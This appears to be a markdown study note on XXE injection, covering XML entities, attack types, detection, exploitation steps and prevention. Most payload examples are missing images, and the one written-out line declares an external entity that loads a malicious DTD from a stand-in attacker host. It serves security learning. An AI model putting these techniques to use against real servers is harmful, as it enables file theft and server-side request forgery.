






## What is XML?

XML stands for eXtensible Markup Language, we can understand XML is markup language, is developed by W3C to store and transmit data.

### DTD

DTD stands for Document Type Definition - define structure, data type of element and properties in XML document.

DTD has 2 types: internal and external.

### Entity

Entity has 3 parts: `&`, `nameOfEntity` and `;`. Entity is declared in DTD (Document Type Definition).

__Internal Entity__

- Entity is declared and used in the same file.
- Syntax: `<!ENTITY entity-name "entity-value">`

>```xml
>// DTD Example:
>
><!ENTITY name "John">
><!ENTITY age "20">
>
>// XML example:
>
><info>Name: &name; Age: &age;</info>
>
>```

__External Entity__

- Entity is declared in another position, system use will retrive to this position to get data of entity. (`.dtd`)
- Syntax: `<!ENTITY entity-name SYSTEM "URI/URL">`

Example: 

```xml
<!ENTITY entity-name SYSTEM "http://attacker.com/malicious.dtd">
```

## What is XXE?

XXE is stand for XML external entity injection. XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 

Impact: allow an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

## How do XXE vuls occur?

XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

## Types of XXE attacks?

- Exploiting XXE to retrieve files: where an external entity is defined containing the contents of a file, and returned in the application's response.

- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.

- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.

- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

## How to find/detect?

- Testing for file retrieval by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.

- Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. Burp Collaborator is perfect for this purpose.

- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well-known operating system file.

## How to exploit XXE?

### Exploiting XXE to retrieve files

- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.

- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

__Example__



After send request




### Exploiting XXE to perform SSRF attacks

- The other main impact of XXE attacks is that they can be used to perform server-side request forgery (SSRF).

- Define an external XML entity using the URL that you want to target, and use the defined entity within a data value.

- A data value that is returned in the application's response, else -> only attack blind SSRF attacks.

__Example__



### Blind XXE vulnerabilities

- Application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

- Blind XXE vulnerabilities can still be detected and exploited, but more advanced techniques are required. You can sometimes use out-of-band techniques to find vulnerabilities and exploit them to exfiltrate data. And you can sometimes trigger XML parsing errors that lead to disclosure of sensitive data within error messages.

### Finding hidden attack surface for XXE injection

__XInclude attacks__

- XInclude is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

- To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include. For example:



After:



__XXE attacks via file upload__

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

Example:




## How to prevent?

- Disable potentially dangerous XML features that the application does not need or intend to use.

- Disable resolution of external entities and disable support for XInclude